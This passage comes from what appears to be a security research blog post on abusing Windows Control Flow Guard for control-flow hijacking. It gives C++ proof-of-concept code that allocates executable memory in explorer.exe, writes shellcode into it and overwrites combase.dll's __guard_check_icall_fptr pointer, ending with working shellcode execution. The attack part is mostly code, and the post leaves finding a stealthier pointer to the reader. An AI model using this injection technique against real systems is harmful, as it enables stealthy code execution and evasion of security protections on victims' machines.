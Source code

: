 Running this to test gives us the following output, confirming that we have successfully located our pointer in memory:

![Screenshot of terminal output from POC, showing that we have successfully located combase.dll!__guard_check_icall_fptr](/assets/img/posts/abusing-control-flow-guard-for-control-flow-hijacking/testing_pointer_location.png)

## Writing Shellcode to the Target Process

Since making this specific part of process injection "stealthy" isn't the goal of this post, we will simply use the `VirtualAllocEx` and `WriteProcessMemory` WinAPIs to do so. The `0xc0` is the size of the stub rounded up to the nearest 16 bytes, which we will get into a little bit later.

```cpp
BYTE* base_address = (BYTE*)VirtualAllocEx(process, NULL, sizeof(shellcode) + 0xc0, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(process, base_address, shellcode, sizeof(shellcode), NULL);
```

## Overwriting Pointers in a Target Process

For the purposes of testing, I will be using `explorer.exe`. This is because explorer is both a relatively safe process to crash (it restarts itself) and it is very heavily reliant on COM proxying, hence even right clicking will trigger our control flow hijack.

As for actually writing the pointer, we will again use `VirtualProtect` and `WriteProcessMemory` to do so as follows. You may notice that `VirtualAlloc` is being used here, and that's because we are using a pointer in `.rdata` for this post, as I don't want to burn other pointers in this post. **Finding a better pointer is left to the reader.**

```cpp
DWORD oldprotect = NULL;
BOOL success = VirtualProtectEx(process, __guard_check_icall_fptr, sizeof(FARPROC), PAGE_READWRITE, &oldprotect);
WriteProcessMemory(process, __guard_check_icall_fptr, &base_address, sizeof(PVOID), NULL);
success = VirtualProtectEx(process, __guard_check_icall_fptr, sizeof(FARPROC), oldprotect, &oldprotect);
```

At this point, we can give the POC a quick test, and we have shellcode execution!